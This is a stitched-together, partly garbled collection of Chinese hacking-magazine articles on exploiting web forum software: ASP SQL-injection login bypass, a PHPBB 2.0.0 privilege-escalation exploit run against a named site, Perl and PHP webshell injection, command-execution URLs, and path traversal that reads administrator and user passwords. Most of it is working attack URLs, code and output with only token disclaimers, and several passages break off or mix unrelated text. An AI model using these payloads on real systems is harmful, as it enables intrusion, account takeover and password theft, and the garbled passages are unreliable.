到这里，漏洞就指出来了，它就是“我们输入的数据内容可以变成程序代码的一部分”。最初的数据库验证使用者的程序如下：

```sql
select * from accounts where user='用户名' and password='口令'
```

但是当大家输入特定的账号和口令后，数据库验证程序就变成：

```sql
select * from accounts where user='jiangchao or user<>'jiangchao'
```


```text
strsql=strsql & "' and password='" &
"jiangchao' or user<>'jiangchao' & '" 
=select * from accounts where
user='jiangchao' or user<>'jiangchao'
and password='jiangchao' or user<>'jiangchao'
```

因为数据库账号和口令的字段名现在是“user”和“password”了，那么对这两行进行判断是：

```text
“user<>'jiangchao’” 和 “password<>'jiangchao’”
```

```text
user<>'jiangchao' and password='jiangchao' or password<>'jiangchao'
```

它的检查逻辑是：当搜寻数据库的记录，不管用户是jiangchao或不是jiangchao，密码不管是jiangchao或不是jiangchao，都是合法用户。

大家看了之后是不是有点吃惊？竟然用户是不是jiangchao，密码是不是jiangchao，都属于合法用户，那不是所有人都可以成为合法用户了吗？不信的话就按照以下的方法去做（图5）。

按照图5的方法做完后，大家就可以看到成功进入正确网页了，这就是ASP口令验证的漏洞实验了。那么，黑客在实际当中是怎样利用这个漏洞的呢？

这样，SQL查询就找不到字段名称的错误了。现在大家已经了解到了ASP程序代码泄露出去对系统的安全性的威胁有多大了吧。既然危害这么大，那么我们应该怎么防护呢？

### ASP口令验证漏洞的实际应用

大家看完上面ASP口令验证漏洞的原理以后，是不是就认为很容易利用这个方法入侵了呢？其实并没有那么容易。成功的关键就是大家首先要知道对方数据库里的账号和口令的字段名称。比如说数据库中的账号和口令的字段名称是“user”和“password”，那么原来的程序就会变成：

```text
strsql="select * from accounts where user='" & id
strsql=strsql & "' and password='" & password & "'"
=select * from accounts where user='账号' and password='口令'
```

前面账号“jiangchao' or user<>'jiangchao'”，口令“jiangchao' or password<>'jiangchao'”的输入结果如下：

```text
strsql="select * from accounts where user='" & 'jiangchao' or
```

```vb
If (InstrRev(id, "'")>0) Then
Else
  Strsql="select * from accounts where id='" & id
  Strsql=strsql & "' and password='" & password & "'"
End If
```

很多攻击都是针对脚本发动的，如最新动网论坛（ASP）的 tongji.asp 文件没有过滤用户提交传递给 SQL 查询的输入，导致远程攻击者可以利用这个漏洞进行 SQL 注入攻击；雷傲论坛（CGI）的 Search.cgi 文件存在 Cookie 变量未过滤漏洞等，脚本漏洞轻则可以让攻击者得到论坛管理权限，严重的甚至威胁到系统安全，由此可以看出脚本安全的重要性。

难度等级：低
前置知识：IE 的使用，Perl 程序的使用

## 针对 PHPBB 2.0.0 论坛漏洞的测试

文／朱平

一日在安全焦点看到 PHPBB 2.0.0 权限提升的测试程序，虽然此漏洞已经就发布很久了，但国内很多用户还在使用 2.0.0 版本的 PHPBB 论坛程序，并没有意识到漏洞的严重性，现在我们就来测试一番 PHPBB 2.0.0 存在的漏洞，给大家提个醒。在安全焦点下载测试程序（http://www.xfocus.net/tools/200308/PHPBB2.0.0.exploit_code.zip），解压缩下载来的测试包后发现有 HTML 和 PL 两种代码的测试程序。

### 漏洞描述

PHPBB 是在 MySQL 数据库上用 PHP 后端语言写的 UBB 风格的讨论板。包含邮寄／回复／编辑消息、个人信息、个人论坛、用户和匿名邮件、意味深长的论题，通过提交或其他特殊的顺序排队用户，可定义管理、排队和更多功能。

PHPBB 2.0.0 被发现存在一个安全缺陷，任何恶意的普通用户都可以利用此缺陷非法将自己的权限提升到管理员级别，获得对系统的完全控制权限。

这是由于 PHPBB 2.0.0 中脚本程序 admin_ug_auth.php 的一个译码错误引起的。admin_ug_auth.php 在 PHPBB 2.0.0 中用于设置用户的权限。通常只有具有管理员权限才能访问 admin_ug_auth.php，但是在这里脚本对普通用户提交的非法数据却不会提出任何疑问，所以如果攻击者知道讨论板将要接收什么样的响应，直接递交全图执行的指令即可，如要求提升某个特定账号为管理员等。

### 漏洞测试

#### 1. HTML 文件测试

我们以 http://leftworld.net/PHPBB2/index.php 这个论坛为例，PHPBB 版本为 2.0.0.0，大家可以在论坛首页的底部看到此版权信息，如图 1 所示。


图 1 论坛版本

首先注册一用户，不要告诉我你不会。点击论坛顶部菜单中的 Register（注册）按钮，接着会出现一些注意事项，如果你超过 13 岁请选择“I Agree to these terms and am over 13 years of age”选项，如果你未满 13 岁则可以选择“I Agree to these terms and am under 13 years of age”选项，如果你不同意论坛的声明，那你就选择“I do not agree to these terms ...”

terms”选项，不过这样我们的游戏也要结束了，因为完成不了注册。我们选择第一项，来到填写个人信息页面，打星号的是必填的，系统要求你输入 Username（用户名）、E-mail address（电子邮件地址）、Password（密码）及其他一些个人信息，方便大家交流用。确认无误后单击底部的 Submit 按钮就完成了新用户的注册，此处我们注册的用户为 test，当然现在的权限只是 User。

回到首页，选择论坛顶部菜单 Memberlist（会员列表），如图2所示。


此时会出现论坛已注册用户的列表页面，找到我们刚注册的用户 kuin，点击它就能看到 kuin 的个人信息了。但这时候要你注意的是 URL，如图3所示。


看到 URL 最后部分的 u=3 字样吗，记住这个 3，这就是用户的 ID 号，等会提升权限有用。

打开我们的测试包里的那个 HTML 文件：exploit_code.html，用记事本查看源文件，将 `<form method="post" action="http://*/PHPBB2/admin/admin_ug_auth.php">` 中的 `*` 改为想要测试的论坛网址。原理很简单，就是能找到 admin_ug_auth.php 文件就行了。此处我们改成：

```html
<form method="post"
action="http://leftworld.net/PHPBB2/admin/admin_ug_auth.php">
```


保存。回到测试页面，在选项 User Level 处选择：Administrator，User ID 处输入刚才我们得到的 kuin 用户的 ID：3，确认无误后点击 Submit（提交）按钮就行了，如图4所示。

此时自动回到论坛登录界面，输入用户 kuin 及密码，正常登录后你会在论坛底部发现多了一项操作菜单：Go to Administration Panel（到管理员面板），如图5所示。稍微熟悉论坛管理的朋友都知道这是论坛管理员的操作菜单，点击后我们就能进入管理面板管理整个论坛了。


# 2. Perl文件测试

测试包中还有一个 pl 测试程序，根据一些朋友的需要我们也来说说它的用法吧。运行 pl 文件需要你的系统安装 Activeperl。为了区别我们再注册一用户 test，记住它的用户 ID 为 4。在 DOS 下运行 pl 文件：

```text
C:\>exploit_code.pl
Content-type: text/html

root_a_PHPBB 2.0.0.pl perl command line version
Coded by nick84@ (http://www.rootsecure.net)

Usage Instructions (data gathering)

1. Goto the board you wish to change the permissions for in the normal way using a browser.
2. Find the base directory location of the board for the script.
   i.e. if the main page was http://www.server.com/PHPBB2/index.php
   the base directory location would be http://www.server.com/PHPBB2
   -- without the trailing slash --
3. Goto the board's "Memberlist" page (usually located at the top with the rest of the links)
4. Search the "Memberlist" page for the specific account you wish to change the permissions for, and click the username then note down the number at the end of the page URL you are at. (u=?)

5. Fill in the details obtained where asked for in the following prompts.

Press enter to continue.

// 前面为测试方法，如果你已经很清楚了按回车键就行了

Boards Location
----------------

e.g. (http://www.domain-name.com/PHPBB2)
Note: no trailing slash
Don't forget to use capitals if the name contains them

http://leftworld.net/PHPBB2

// 此处输入我们要测试的论坛 URL

User ID
----------------

User ID of the user you wish to change the permissions for.
Found by clicking your profile on the Memberlist page and then reading the end of the URL (where it says u=?)

4

// 测试用户的 ID

User Level
----------------

User level you wish to give to the specified user
i.e. for admin type admin for user type user

admin

// 提升用户的权限

Details Entered
----------------

Board Location: http://leftworld.net/PHPBB2
User ID No.: 4
User Level: admin

Is this correct? (if it is press enter, otherwise ctrl+c)

// 我们想要提交的信息，正确无误的话直接回车，还要修改的话则按 Ctrl+C 键中断它。

Working

Finished!
Now go and log into the forum in the usual way.
If it was successful,
there will be a link at the bottom of every board page saying "Go to Administration Panel" and additional options will appear on screen when you are viewing a specific thread to enable you to edit or delete posts in it etc.

C:\>

// 提示测试成功，正常登陆论坛你会发现多了 "Go to Administration Panel" 选项。
```

现在我们用 test 用户正常登录论坛，同样你会在论坛底部发现“Go to Administration Panel”选项的，恭喜你，你是管理员了。

- 受影响程序：PHPBB 2.0.0
- 不受影响程序：PHPBB 2.0.0 以后版本
- 解决方案：升级到 PHPBB 2.0.0 以后版本

### 编后

本文向我们展现了又一个针对脚本漏洞的攻击方法，由此我们更加清楚世界上没有所谓的绝对安全的脚本程序，而我们唯一能做的，就是密切关注漏洞公告，并通过及时打补丁、升级等措施来谋求安全性的最大化。


# 一个简单 **Post** 攻击的例子

文／www417

经常听说有些留言本安全性不强，允许通过直接 post 数据、修改资料的攻击例子，但是我一直没碰到这么简单的留言本。

直到某日在网上闲逛时，发现一个论坛网站，未注册用户只能看论文标题，于是注册了一个账号，想进去学习学习。

没想到免费注册用户也只可以看论文概述，只有收费用户才可以看全文。在留言本上转了转，这个留言本结构比较简单，很可能是直接拿网络上的免费代码修改了一下就用。于是想尝试修改注册用户密码，进去学习学习。看一下 html 代码，在修改密码页面有这么几句：

服务器上 modifypwd.asp 只根据用户提交的变量修改数据库中数据，并且不比较当前登录用户的密码和此用户要修改密码是否匹配。

另外还要说明一下，这站点页面还有个问题，就是 hidden 的变量，在我测试中发现只要 userid 和 username 匹配就可以更改资料，问题就在如何得到有权限用户的 user

想想看，这时文件 data/leoskin.cgi 变成什么样了呢？对，就是如下语句：

```perl
use CGI qw(:standard);
open(SKY, param('a'));
print SKY param('b');
$printme = 'use CGI qw(:standard); open(SKY, param(\'a\')); print SKY param(\'b\')';
```

```perl
opendir(DIR, "$lbpath");
@files = readdir(DIR);
close(DIR);
@memdir = grep(/members/, @files);
$hack = $lbpath . @memdir[0] . $ad;
open(HACK, ">$hack");
print HACK "hack\thack\thack\tad\n";
```

以上实质起作用的是下面3个语句：

```perl
use CGI qw(:standard);
open(SKY, param('a'));
print SKY param('b');
```

注意：这里是整个攻击实质性的第一步哦，我们直接利用 setskin.cgi 受到了诸多限制，因此变换思路使用 leoskin.cgi 这个与论坛操作交流的桥梁；小弟试过几次，屡试不爽。

怎么样？这个 webshell 算得上短小精悍，并且功能也很酷吧？！可别小瞧它，它能做许多事哦，比如说提交如下 url 请求：

```text
http://www.target.com/perl/lb5000mx/cgi-bin/data/leoskin.cgi?a=>>E:/PsYch/PERL/LB5000MX/cgi-bin/data/hack.cgi&b=hahahaha
```

此时，对方系统中执行的代码即为：

```perl
open(SKY, ">>E:/PsYch/PERL/LB5000MX/cgi-bin/data/hack.cgi");
print SKY "hahahaha";   # 很多朋友说不成功就是因为忘记了 ">>"
```

这样，你就可以在 E:/PsYch/PERL/LB5000MX/cgi-bin/data/ 目录下创建一个名为 hack.cgi 的新文件，且其内容为我们提交的“hahahaha”；按照相同的方法，你可以把下面这个文件一行一行写到对方 Web 下一个新建文件（譬如 hacktest.cgi）中：

```perl
$lbpath="E:/PsYch/PERL/LB5000MX/cgi-bin/";
##### 注意：此处请修改 #####
$ad="/hack.cgi";
```

声明：我可没强迫你通过浏览器来提交，你也可以自己写个小程序实现。^^

假如你把文件名定为 hacktest.cgi，并且该文件放在 cgi-bin/data 目录下，那么你只需要在 IE 网址栏提交如下请求：

http://www.target.com/perl/lb5000mx/cgi-bin/data/hacktest.cgi

这样，一个用户名和密码都为 hack 的管理员就诞生了。当然，想上传个功能强大、使用方便的 webshell 上去也行，不过那是你自己的工作了！

> 编者语：如果你觉得拿到论坛的最高管理员权限还不够，可以上传 webshell 后对整个网站文件操作或借此得到一个 shell 并提升系统权限，但这并不是本文所讨论的范围。

### 四、解决办法

将 lb.lib.pl 文件中的 getmember()、getmembernolock() 两个函数的末尾添加 $membercode=""，即把“else { $userregistered = "no"; }”改为

“else { $userregistered = "no"; $membercode=""; }”

后记：笔者较早前就发现了这个漏洞，后来因有人得到了漏洞细节并攻击了很多论坛后，LB 作者意识到了漏洞的存在并发出了紧急安全通告，且迅速将论坛版本升级到 1.90。应该强调：论坛漏洞的存在，危害的不仅仅是论坛本身，而是整个系统安全！另外，我想和大家说的是，虽然 LB 不断地有一些 bug 被揭发，但它不是更差了，而是日臻完善，LB 仍然是最值得推荐、信赖的优秀 BBS 之一。

## LB5K

## 论坛 search.cgi 文件漏洞的发现


文／PsKey

早在2001年11月03日，Chen Jun（chenjun@netguard.com.cn）发布了 LB5000 论坛 search.cgi 存在 Cookie 变量未过滤漏洞，此漏洞当时闹得沸沸扬扬，LB5K 开发者也随即“修复”了此漏洞。但未曾想到：到了2003年，search.cgi 文件的漏洞又卷土重来。人们认为最安全的地方实际上却是最容易忽视最危险的地方，这个新漏洞颇有戏剧色彩，难道不是吗？

> PsKey 称之为“有史以来 LB 最隐蔽，颇有戏剧色彩”的漏洞哦。

- 1. 涉及版本

LB5K 论坛当前所有版本。

- 2. 描述

LB5K 是一款由 www.leoboard.com 开发和维护的源代码开放的 cgi 论坛；由于 search.cgi 变量过滤不严，可能导致非法用户注入恶意代码，进而威胁论坛或服务器安全。

- 3. 具体漏洞分析

我们首先来看看 search.cgi 文件中的相关代码：

```
39. for ('TYPE OF SEARCH', 'NAME SEARCH', 'POST SEARCH', 'FORUMS TO',
'action', 'forum', 'SEARCH STRING', ...)
```

```
REFINE SEARCH, CUR TIME, nextforum,
start, FH SEARCH, CAT TO SEARCH,
SEARCH DAY, SEARCH TIME
...
next unless defined $...;
next if $_ eq 'SEND MAIL';
$tp = $query->param($_);
$tp = &uinHTML("$tp");
${$_} = $tp;
```

```
50. $SEARCH STRING =~ s/system //g;  # 这行代码没有任何作用
51. $SEARCH STRING=&stripMETA($SEARCH STRING);  # $SEARCH STRING 变量执行了严格过滤，这里没有问题存在
```

```
83. $searchfilename = "$lbdir" . "search/$filename\.sch.cgi";  # 保存搜索结果文件
```

```
146. elsif ($action eq 'startsearch') {
```

```
179. open (SEARCH, ">$searchfilename");
print SEARCH "$CUR TIME\n";
print SEARCH "$SEARCH STRING\n";
print SEARCH "$TYPE OF SEARCH\n$SEARCH DAY,$SEARCH TIME\n";
print SEARCH "$REFINE SEARCH\n";
print SEARCH "@FORUMS TO SEARCH,$FH SEARCH\n";
close (SEARCH);  # 问题就出现在这里，没有注意用户的“隐式输入”！
```

正常情况下，我们以一普通用户 zz 登录论坛后，进入search.cgi 页面搜索：

要搜索的关键字：PsKey

请选择要搜索的论坛或分类：所有论坛

其余默认。

提交搜索，则在 /search 目录下会生成zz_sch.cgi 文件，其内容为：

```
1053619083
PsKey
keyword_search, any, b
topictitle_search
all; no
```

这个文件比较乱啊，看来这给我们构造请求、消除语法错误造成了一定的麻烦！特别是 $SEARCH_STRING 变量（就是对应刚才添入的 PsKey），搜索完毕后处在 zz_sch.cgi 文件的第二行，它被两个函数 unHTML() 和 stripMETA()处理了，这两个函数代码为：

```perl
sub unHTML {
    my $text = shift;
    $text =~ s/<!--(\n)*-->//g;
    $text =~ s/\&/\&amp;/g;
    $text =~ s/<script>/\&lt;script\&gt;/ig;
    $text =~ s/"/\&quot;/g;
    $text =~ s/ /\&nbsp;/g;
    $text =~ s/</\&lt;/g;
    $text =~ s/>/\&gt;/g;
    $text =~ s/[\a\f\e\0\r\t\v]//isg;
    $text =~ s/document.cookie/documents\&\#46\;cookie/isg;
    return $text;
}

sub stripMETA {
    my $file = shift;
    $file =~ s/[<>"'()\[\]\a\f\n\e\0\r\t\v\&\,\|\*?]//g;
    return $file;
}
```

哎，没想到竟然过滤得这么绝，那如何消除一二三行间的语法错误？

这个时候，兄弟 Envymask 迅速用脚趾想了一下：“用and”。我知道，形势从这里就应该开始有所扭转了。废话少说，直接提交。

```text
http://www.target.com/perl/lb5000mx200/cgi-bin/search.cgi?action=startsearch&CUR_TIME=1053615759&START=1&SEARCH_STRING=and system @ARGV;&NAME_SEARCH=topictitle_search&TYPE_OF_SEARCH=%3b%23keyword_search&POST_SEARCH=%23topictitle_search%0a%3dhead&JH_SEARCH=no&SEARCH_DAY=any&SEARCH_TIME=b&CAT_TO_SEARCH=%23all
```

> 大家测试的时候注意不要敲错以上代码，PsKey 做了一个攻击测试脚本，此脚本对 WIN+IIS 的系统有效。毕竟这个漏洞是要执行 search 目录下的文件的，而其他环境似乎都对这个目录权限设置得比较严格（譬如 UNIX 平台的 Apache 便会严格限制该目录的可执行权限）。

哈哈，这下 zz_sch.cgi 变成了什么样子呢？

```
1053615759
and system @ARGV;
;#keyword_search; any; b
#topictitle_search
=head
CAT_TO_SEARCH CUR_TIME JH_SEARCH
NAME_SEARCH POST_SEARCH SEARCH_DAY
SEARCH_STRING SEARCH_TIME
TYPE_OF_SEARCH action, no;
```

虽然看起来还是乱七八糟，但如果对方采用 perl.exe %s %s 映射，它便能帮我们办事了哦！提交：

http://www.target.com/perl/lb5000mx200/cgi-bin/search/zz_sch.cgi?dir%20h:

返回：

```
H:\ 的目录

2003-02-22 10:30    <DIR>          Driver
2003-02-22 10:27    <DIR>          Software
2003-02-23 11:42    <DIR>          Music
2003-02-25 22:11    <DIR>          OSBackup

0 个文件              0 字节
4 个目录  5,430,214,656 可用字节
```

CGI论坛存在不少漏洞，但是其他形式的论坛是否也存在类似的非常严重的问题呢？既然提到这个问题，答案绝对是 Yes！本文就着重讨论一下 PHP 论坛存在的一些安全问题。在看本文之前，请读者先留出一点时间冷静一下。Ready？Go……

## WDB 及其各个美化、改良版均存在严重漏洞


文/PsKey

### 一、Sendmail.php 变量过滤不严漏洞

#### 1. 涉及版本和平台

- 受影响版本：WDB、南宫紫剑修改版、若尘美化版、BMB（Bluemagic论坛）……当前所有版本。
- 受影响操作系统：Windows。

#### 2. 描述

- WDB：http://www.lvxing.net/
- 南宫紫剑修改版：http://qbit.w18.net/wdb
- 若尘美化版：http://wenhebbs.126.com/
- BMB：http://www.bmforum.com/

由于它们的 Sendmail.php 文件存在变量过滤不严漏洞，可能导致系统敏感文件泄露，非法用户可以获取任意用户包括论坛管理员的密码，进而威胁系统安全。

如果对方采用的是 perlis.dll 映射，具体利用方法还是和我过去 LB 系列漏洞文章中提到的思路一样，这个漏洞的攻击测试脚本我已经为大家做好了，放在随书光盘中哦。不过，这里要提醒大家千万不要用于恶意攻击，本脚本仅作为技术交流。

> 由于该脚本为 .pl 文件，在测试前你先需要安装 perl 的执行环境（安装软件 ActivePerl.msi 在光盘中有下载，也很容易从网上获取）。

这个测试脚本的用法比较简单。譬如，我们想对 http://www.target.com/lb/cgi-bin/leoboard.cgi 论坛进行测试，我们需要先在对方网站注册一个用户（譬如用户名为 testid，密码为 testpass），然后，我们就可以直接输入命令：

```text
lb_search.pl -h www.target.com -p 80 -w /lb/cgi-bin -u testid -k testpass
```

这样，我们就只需要等待测试结果了。如果成功，你将获得一个 WebShell（http://www.target.com/lb/cgi-bin/cat.cgi）和一个用户名为 ilikecat、密码为 catlikeme 的论坛坛主用户。

> 请在对方网站管理员授权的情况下进行测试，不得用于恶意攻击，否则一切后果自负哦。

当然，cat.cgi 这个 WebShell 的文件名，要创建的管理员用户名 “ilikecat” 和其密码大家都可以直接在 lb_search.pl 文件中修改。

**后记** 本文所提到的漏洞原理并不复杂。但是，你也不得不为之拍案叫绝。据说，PsKey 发现此漏洞后，整整一天都兴奋得手舞足蹈。我想你也会跟着兴奋的，但如果你是一个 LB 管理员，你是不是觉得少了点什么呢？对，这个漏洞如此危险，如何打补丁？！现在就告诉你解救办法：请你打开另外一本杂志，看到《LB5K论坛search.cgi文件漏洞修复及相关防范》这篇文章了吗？对，就是它了。相信它足以消除你现在心中莫名的恐慌。

#### 3. 具体漏洞描述

```php
<?
if ($login_status==0) print_error();
if (strpos($target,'/')!==false) die;
if ($target && file_exists("id_unique/$target")) {
    $usertemp=readfromfile("$id_unique/$target");
    $userdetail=explode("|",$usertemp);
    $usermail=$userdetail[3];
    $receiver=$userdetail[0];
}
...
if (empty($action) || $action=="fail") {
?>
<table width="100%" border="0" cellspacing="0" cellpadding="3">
<tr>
<td bgcolor="<?=$titlecolor?>"><font class=title>&nbsp;给<?=$receiver?>发信 <font color="red"><? if ($status) echo $status; ?></font></font></td>
```

这段脚本原意是获取用户提交的发送邮件的对象（$target）。$target 即为 $id_unique 目录（保存用户数据的敏感目录）下某一用户数据文件，里面包含用户账号、密码等重要信息。上面代码首先检查是否存在 $target，如存在，则获取用户名（$userdetail[0]）并赋给 $receiver 变量、用户邮箱（$userdetail[3]）赋给 $usermail 变量，并在浏览器上把 $receiver 反馈输出给浏览者。但代码只对 $target 变量作了简单限制即不能包含“/”，在 Windows 操作系统下，我们可以使用类似“..\..\”的方法来跳转目录以读取任意文件。

应该读取什么文件呢？让我们先了解一下 WDB：它的重要文件都保存在 /datafile 目录下，对我们有用的是 idunique.php 和 superadmin.php，前者是保存用户数据的目录，后者是保存超级用户账号密码的文件，一般内容是这样的：

```php
idunique.php
<? $id_unique="members" ?>
```

superadmin.php（注：某些 WDB 用户密码未加密，如若尘美化版）

```html
<? $admin_name='root'; $admin_password='765dfh' ?>
```

因为 Sendmail.php 以“|”为间隔符来分割处理文件，而 idunique.php 和 superadmin.php 不包含“|”。因此，$receiver=$userdetail[0] 返回的是文件所有内容，我们直接在浏览器上是看不到它们的，但“查看网页源文件”就会发现，它们静静地呆在那里等我们来取。

#### 4. 利用方法

先注册一用户，然后登录论坛，接着提交如下 URL：

```text
http://www.target.com/php/rcwdb/sendmail.php?target=..\datafile\superadmin.php
```

查看源文件，我们会看到：

```html
<font class=title>&nbsp;给<? $admin_name='root';
$admin_password='765dfh'; ?>发信 <font color='red'>
```

哈哈，得到超级管理员密码了。

再提交如下 URL：

```text
http://www.target.com/php/rcwdb/sendmail.php?target=..\datafile\idunique.php
```

查看源文件我们会看到：

```html
<font class=title>&nbsp;给<? $id_unique='members'; ?>
发信 <font color='red'></font>
```

Good，我们得到保存用户信息的隐藏目录名了，它就是 members，而保存用户信息的是一个无后缀的文本文件。因此，我们直接请求该文件便可返回用户所有信息，如提交如下请求：

```text
http://www.target.com/php/rcwdb/members/aaa
```

则返回：

```text
Aaa|aaaaaaa|0.gif|%%|49cn@sohu.com||1052974418|||| 我很懒，什么也不想写！
|||0|none|
```

这样，我们便可知道，aaa 用户的密码为 aaaaaaa。

## 二、announcesys.php变量未初始化漏洞和变量未过滤漏洞

#### 1. 涉及版本

南宫紫剑修改版。

#### 2. 描述

由于其 `announcesys.php` 文件 `$announceadmin` 变量未经初始化，可能导致非法用户绕开 `announcesys.php` 验证，并有可能向系统文件中写入恶意代码，进而威胁论坛或服务器安全。

#### 3. 具体漏洞分析

试看相关代码：

```php
...
if ($login_status==1 && ($username==$admin_name || ($manager && in_array($username,$manager))))
    $announceadmin=1;
//----- 让增加的管理员有权限管理！ --------
if (file_exists("datafile/admin_user.php")) {
    include("datafile/admin_user.php");
    if ($admin_user && in_array($username, $admin_user)) {
        $announceadmin=1;
    }
}

if ($job=="write") {
    if ($announceadmin!=1) {require("header.php");
        echo "对不起，未登录或者身份不正确，请 <a href='javascript:history.back(1);'>返回检查</a>";
    }

    $content=stripslashes(safe_convert($content));
    $title=stripslashes(safe_convert($title));
    $title="".$title;
    $new="$user|$title|$timestamp|$content|$membern\r\n";

    $oldcount=count($msg);
    if ($oldcount>$msgg_max) {
        for ($i=$msgg_max; $i<$oldcount; $i++) unset($msg);
    }

    $old=implode("",$msg);
    writetofile("datafile/announcesys.php",$new.$old);

    echo "<br>已经成功发布<br><br><a href='announcesys.php'>点这里返回公告中心</a>";
    exit;
}
}
```

```php
...
if ($job=="yesclear") {
    if ($announceadmin!=1) {require("header.php");
        echo "对不起，未登录或者身份不正确，请 <a href='javascript:history.back(1);'>返回检查</a>";
        require("footer.php");
        exit;
    }
    if (file_exists("datafile/announcesys.php")) unlink("datafile/announcesys.php");
    echo "<br>您的所有公告已被成功清空";
    exit;
}
...
```

可以看出：`$announceadmin` 变量并未初始化，如果我们直接指定“announceadmin=1”便可以绕开验证执行“write”和“clear”操作，更加有趣的是，`$membern` 没有过滤。因此，我们完全可以写个 webshell 到 `/datafile/announcesys.php` 文件中。

#### 4. 利用方法

提交如下 URL：
`http://www.target.com/php/wdb/wdb/announcesys.php?job=yesclear&announceadmin=1`
将会删除 `/datafile/announcesys.php` 文件；
再提交如下 URL：
`http://www.target.com/php/wdb/wdb/announcesys.php?job=write&announceadmin=1&content=ilikecat&title=dog&step=2&membern=<?%20system($cmd);?>`
然后请求：
`http://www.target.com/php/wdb/wdb/datafile/announcesys.php?cmd=whoami`
就有可能执行 `whoami` 命令，攻击可能遇到的具体问题不在本文讨论范围之内，这里不作多余说明！

### 后记

本文所述漏洞涉及版本比较多，希望大家不要用于恶意攻击，否则后果自行承担哦。对了，这里还没有告诉大家如何防范呢？不过相信你可以从防范《WDB漏洞的修复及相关防范》一文中找到答案。

目前网络上的论坛版本很多，比如著名的雷傲论坛、动网论坛等，一些网站爱好者们对于论坛的安全性也非常的感兴趣，在经过测试验证以后，经常会发现这些论坛也存在着这样或那样的问题，本文是作者针对 YUZI 论坛的一次安全性分析，让读者们对这个论坛的安全情况有个了解。

## YUZI BBS3000 论坛安全性分析


文/shocker

BBS3000 论坛是国内使用比较广泛的论坛，但是安全性却非常的低。在此我就来分析一下 BBS3000 论坛的安全性问题。

大家都看过 BADBOY 的那篇分析 BBS3000 安全性的文章，但是那只是由于 Windows 下对 CGI 文件错误解释造成的，把所有 CGI 都附有了可执行权限，改用 ISAPI 方式就不会产生问题。当然了，虽然 BBS3000 修正了当时 BADBOY 说的问题，但是还存在着不少这种问题，即可以创建含有 SYSTEM @ARGV 的这种 CGI 文件。在此我就不一一列举了，这回我说的方法针对所有平台下安装的 BBS3000 最新版（WWW.YUZI.NET 上最后公布的版本）。老版本我并没有进行测试，谁有兴趣可以自行测试。

言归正传，首先我们来看一下 BBS3000 的代码。

先看 postlog.cgi 这个文件里面，对 $FORM{username} 变量并没有进行任何过滤，而后面却这样写：

```perl
open (PEO, "$filepath/postlog/$FORM{username}.cgi");
@lines=<PEO>;
close (PEO);
foreach $line (@lines) {
  chomp($line);
  ($slttitle,$id,$bbsname)=split(/\t/,$line);
}
```

```perl
$z="$filepath/list/$id/$slttitle";
open(TITLES,"$filepath/list/$id/$slttitle");
$m=<TITLES>;
close(TITLES);
($rtitles,$rthistime,$rusername,$nr,$rfrom,
 $rhasreply,$emote,$lastname,$lasttime,$re,$rhassee,
 $jing,$lock)=split(/\t/,$m);
```

可以看出，$slttitle，$id；$bbsname 这 3 个变量是从 postlog 目录下的 $FORM{username}.cgi 文件读出然后再读取 $filepath/list/$id/$slttitle 文件，从中读出 $rtitles、$rthistime、$rusername、$nr、$rfrom、$rhasreply、$emote、$lastname、$lasttime、$re、$rhassee、$jing、$lock 这些变量的值。

最后把以上的变量显示出来一些。但是从后面的 html 输出可以看出，$rtitles 这个变量肯定要显示在生成的 html 页面上，由此我们可以看出，只要能把 $filepath/list/$id/$slttitle 这个路径让 CGI 程序认为是：./list/$id/../../../yhzl/用户名.cgi 就可以，这样该用户名的用户密码就能被读到 $rtitles 这个变量中了（因为用户资料的存储格式是密码放在第一位），并且能显示出来：），但是，由于 $slttitle 这个变量是从 $filepath/postlog/$FORM{username}.cgi 文件中读取出来的，所以我们只有伪造一个文件，让它当中存有：


这么一段，这样就可以了。

我们只要伪造第一个字段的资料，后两个都用真实的就可以达到攻击目的，下面要做的就是找到伪造这个文件的方法。

经过一番查找，发现在 favorite.cgi 文件中含有这么一个子函数：

```perl
sub add{
    if ($id eq ''){&errorview("不能把公告栏中的贴子加入收藏! ") ;}
    if ($slttitle eq ''){&errorview("系统不存在此贴子的资料! ") ;}
    unless(-e "$filepath/list/$id"){&errorview("系统不存在此ID的论坛! ") ;}
    unless(-e "$filepath/list/$id/$slttitle"){&errorview("此帖子已经被删除了! ") ;}
    open (TMP, "$filepath/list/$id.cgi");
    $line=<TMP>;
    close (TMP);
    ($bzmc,$secret,$bzmail,$optturl,$bbsname,$bzmc2,$rtime,$html,$htmlw,$j,$fbzmc)=split(/\t/,$line);
    open(TITLES, "$filepath/favorites/2$Cookies{'username'}.cgi");
    @hastitles=<TITLES>;
    close(TITLES);
    $TEMP="$slttitle\t$id\t$bbsname\n";
    foreach $hastitles(@hastitles){
        chomp($hastitles);
        if($TEMP eq $hastitles){&okview("该贴已经被你加入收藏了! ") ;}
    }
    $favnum=@hastitles;
    if($favnum >= $favmax){&okview("您的帖子收藏不能超过$favmax 个! ") ;}
    open(PSD,">$filepath/favorites/2$Cookies{'username'}.cgi");
    print PSD "$slttitle\t$id\t$bbsname\n";
    foreach(@hastitles){
        $_=~s/\n//isg;
        print PSD "$_\n";
    }
    close(PSD);
    &okview("您已经成功地将该贴子添加到帖子收藏中了")
    exit;
}
```

从这个模块中可以看出：首先程序判断$id和$slttitle变量是否存在，然后再判断文件是否存在。

最后，把$slttitle\t$id\t$bbsname\n这行写入favorites目录下的“2你的用户名.cgi”这个文件里面，这样我们就可以提交如下请求：

`http://localhost/cgi-bin/bbs3000/favorite.cgi?menu=add&id=任何一个帖子的id号&slttitle=../../yhzl/你想知道密码的用户的用户名.cgi`

这样的话，就可以在favorites目录下生成名为“2你的用户名.cgi”的文件，内容如下：


这样我们就成功地伪造了上面提到的.cgi文件。接下来就省事了，我们只要提交：

`http://localhost/cgi-bin/bbs3000/postlog.cgi?username=../favorites/2你的用户名&menu=log_frame`

这个链接就可以看到你想要知道的那个用户的密码了。

我觉得已经说得很详细了：）如果你看不懂的话，自己先好好学学perl语言吧！

声明：

利用本文所讲的方法造成的一切后果自负，转载请保持文章完整性。

如果需要了解更多的cgi安全方面的信息，请访问 http://analysis.tocare.net/index.php

BBS3000 是一款由 www.yuzi.net 开发和维护的源代码开放的 CGI 论坛，目前免费版的最高版本是 4.132 版。由于简单易用、高效快速、设计人性化、占用系统资源低等特点，在网上应用非常广泛。在前面期我们讨论过关于 BBS3000 存在的漏洞，现在，BBS3000 又被发现存在一个致命的隐患。利用它，我们就可以轻松地进入黑客防线攻防实验室主机，赶紧先睹为快，进入主机拿大奖哦！


## 进入攻防实验室的又一捷径——妙用 BBS3000 另一重大安全隐患

文／Pinkeyes lcx

